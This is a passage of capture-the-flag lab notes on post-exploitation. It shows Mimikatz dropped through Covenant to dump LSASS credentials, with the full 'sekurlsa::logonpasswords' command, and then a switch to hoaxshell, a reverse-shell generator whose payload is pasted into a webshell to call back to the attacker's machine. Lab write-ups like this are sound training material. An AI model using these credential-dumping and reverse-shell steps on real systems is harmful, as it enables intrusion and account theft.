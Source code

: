 Now that we have administrator access to the machine, we can follow our post-exploitation methodology and dump credentials. To aid us in dumping credentials, we will be using the infamous tool Mimikatz. We will also be utilizing Covenant to drop Mimikatz.

![[Task 36 -  That's not a cat that's a dawg-20241014150208220.webp]]

Mimikatz is a well-known tool for a variety of post-exploitation activities. We will be using it to dump credentials from LSASS. [T1003](https://attack.mitre.org/techniques/T1003/001/) From MITRE ATT&CK. Described from ATT&CK as "Adversaries may attempt to access credential material stored in the process memory of the Local Security Authority Subsystem Service (LSASS). After a user logs on, the system generates and stores various credential materials in LSASS process memory. These credential materials can be harvested by an administrative user or SYSTEM and used to conduct Lateral Movement using Use Alternate Authentication Material."  

To run Mimikatz, we can use Covenant to drop the binary. Covenant has a task for Mimikatz; however, it is outdated and does not work on modern Windows systems, so we will need to compile or download our binary to use.  

We can upload a Mimikatz binary using the `Upload` task and obtain a binary from the releases page [https://github.com/gentilkiwi/mimikatz/releases/](https://github.com/gentilkiwi/mimikatz/releases/) or compile the project yourself. Covenant will present you with a pop-up window to drop the file onto, and Covenant will host the file for you and upload the file to the server. Find an example of the window below.

![[Task 36 -  That's not a cat that's a dawg-20241014150423796.webp]]

To ensure a successful upload, you will need to specify where the file is to be uploaded on the target and the file's location on your attacking machine. Find an example of file path syntax below.

![[Task 36 -  That's not a cat that's a dawg-20241014150512569.webp]]

Once the file is uploaded, we can use the `Shell` task to execute the binary. Since Mimikatz has its own CLI, you will need to send all commands to be run within Mimikatz in one command so that Covenant can interpret it.  

---

Now that we have Mimikatz executing on the system, we can look through its modules and syntax. Find an outline of a few Mimikatz modules below.  

- `standard`
- `privilege`
- `crypto`
- `sekurlsa`
- `kerberos`
- `lsadump`
- `vault`
- and more

For this task, we will be focusing on the `privilege`, `token`, and `sekurlsa` modules. Within each of these modules, a number of commands can be used to perform various operations. For more information about all the features of Mimikatz, check out the GitHub wiki, [https://github.com/gentilkiwi/mimikatz/wiki](https://github.com/gentilkiwi/mimikatz/wiki).

The first module we will be looking at is `privilege`, from this module, we will use the `privilege::debug` command. This command will allow us to ensure that Mimikatz is running at the proper privilege levels before performing any operations.

The second module we will be looking at is `token`, from this module, we will use the `token::elevate` command. This command will perform token impersonation to gain elevated integrity on the system. Token elevation is not always necessary but can help to troubleshoot when Mimikatz is struggling to dump credentials.

The third module we will be looking at is `sekurlsa`, this module will contain a majority of the commands to interact with and abuse LSASS. From this module, we will be using the `sekurlsa::logonpasswords`. This command will dump the credentials of accounts already authenticated to the endpoint. We can also use the command `lsadump::lsa`, which has a similar function but will dump LSASS credentials from memory.  

We can put all of these commands together to make a final Mimikatz command that we can use in Covenant. If using this tool normally, you could send each one of these commands separately, but we have to send them a little bit differently because we are using Covenant. Find example syntax below for Mimikatz.  

Syntax: `.\Mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" exit`

It is important that you exit Mimikatz, or your shell task will never complete.

We should now have a working method to dump credentials on the endpoint.


> [!failure]
> Forget all the above because as you've been advised earlier we're not going to use COVENANT.


---

# Your job

## hoaxshell

Hoaxshell is a Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell, based on the following concept:

![[Task 36 -  That's not a cat that's a dawg-20241101160241987.webp]]

More info [here](https://github.com/t3l3machus/hoaxshell).

### Installing hoaxshell on the attacking machine

```

git clone https://github.com/t3l3machus/hoaxshell

cd ./hoaxshell

sudo pip3 install -r requirements.txt

chmod +x hoaxshell.py

```

  
  

> [!tip]
> If you have some trouble witn pip3 you can run


```
  sudo pip3 install -r requirements.txt --break-system-packages
```
  

### Running hoaxshell

```
python3 hoaxshell.py -s <tun0 IP>
```
  
 
![[Task 36 -  That's not a cat that's a dawg-20241101160504921.webp]]

- Go back to the webshell and paste the green code on the field.
- Click on the Execute button.




